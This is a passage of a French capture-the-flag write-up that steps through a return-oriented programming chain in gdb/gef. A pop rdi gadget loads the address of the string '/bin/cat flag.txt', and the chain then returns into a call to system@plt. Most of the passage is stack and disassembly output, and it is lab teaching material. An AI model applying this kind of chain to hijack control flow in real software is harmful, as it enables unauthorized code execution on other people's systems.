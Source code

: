 ## Exécution sous gdb/gef

Lancement de notre script en mode debug

```sh
python3 solve.py -d
```

On se retrouve dans gdb sur un point d'arrêt au retour de la fonction pwnme :

```sh
─────────────────────────────────────────────────────────────── stack ────
0x007ffe02e59108│+0x0000: 0x000000004007c3  →   pop rdi	 ← $rsp
0x007ffe02e59110│+0x0008: 0x00000000601060  →  "/bin/cat flag.txt"
0x007ffe02e59118│+0x0010: 0x0000000040074b  →  <usefulFunction+9> call 0x400560 <system@plt>
0x007ffe02e59120│+0x0018: 0x007ffe02e5920a  →  0x000000007ffe02e5
0x007ffe02e59128│+0x0020: 0x0000000100000000
0x007ffe02e59130│+0x0028: 0x00000000400697  →  <main+0> push rbp
0x007ffe02e59138│+0x0030: 0x007f4a33f3c7cf  →  <init_cacheinfo+287> mov rbp, rax
0x007ffe02e59140│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────── code:x86:64 ────
     0x40073a <pwnme+82>       call   0x400550 <puts@plt>
     0x40073f <pwnme+87>       nop
     0x400740 <pwnme+88>       leave
 →   0x400741 <pwnme+89>       ret
   ↳    0x4007c3 <__libc_csu_init+99> pop    rdi
        0x4007c4 <__libc_csu_init+100> ret
```
On avance  d'une instuction : ret => rip est chargé avec l'adresse contenue sur la pile.

```sh
─────────────────────────────────────────────────────────────── stack ────
0x007ffe02e59110│+0x0000: 0x00000000601060  →  "/bin/cat flag.txt"	 ← $rsp
0x007ffe02e59118│+0x0008: 0x0000000040074b  →  <usefulFunction+9> call 0x400560 <system@plt>
0x007ffe02e59120│+0x0010: 0x007ffe02e5920a  →  0x000000007ffe02e5
0x007ffe02e59128│+0x0018: 0x0000000100000000
0x007ffe02e59130│+0x0020: 0x00000000400697  →  <main+0> push rbp
0x007ffe02e59138│+0x0028: 0x007f4a33f3c7cf  →  <init_cacheinfo+287> mov rbp, rax
0x007ffe02e59140│+0x0030: 0x0000000000000000
0x007ffe02e59148│+0x0038: 0x47cc91bf079b7339
────────────────────────────────────────────────────────────── code:x86:64 ────
 →   0x4007c3 <__libc_csu_init+99> pop    rdi
     0x4007c4 <__libc_csu_init+100> ret
```

ni : "pop edi" charge dans edi le contenu de la pile.

```sh
─────────────────────────────────────────────────────────────────── stack ────
0x007ffe02e59118│+0x0000: 0x0000000040074b  →  <usefulFunction+9> call 0x400560 <system@plt>	 ← $rsp
0x007ffe02e59120│+0x0008: 0x007ffe02e5920a  →  0x000000007ffe02e5
0x007ffe02e59128│+0x0010: 0x0000000100000000
0x007ffe02e59130│+0x0018: 0x00000000400697  →  <main+0> push rbp
0x007ffe02e59138│+0x0020: 0x007f4a33f3c7cf  →  <init_cacheinfo+287> mov rbp, rax
0x007ffe02e59140│+0x0028: 0x0000000000000000
0x007ffe02e59148│+0x0030: 0x47cc91bf079b7339
0x007ffe02e59150│+0x0038: 0x000000004005b0  →  <_start+0> xor ebp, ebp
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4007be <__libc_csu_init+94> pop    r13
     0x4007c0 <__libc_csu_init+96> pop    r14
     0x4007c2 <__libc_csu_init+98> pop    r15
 →   0x4007c4 <__libc_csu_init+100> ret
   ↳    0x40074b <usefulFunction+9> call   0x400560 <system@plt>
```
ni : ret ,  rip est chargé avec l'adresse sur la pile 0x40074b contenant un "call system"
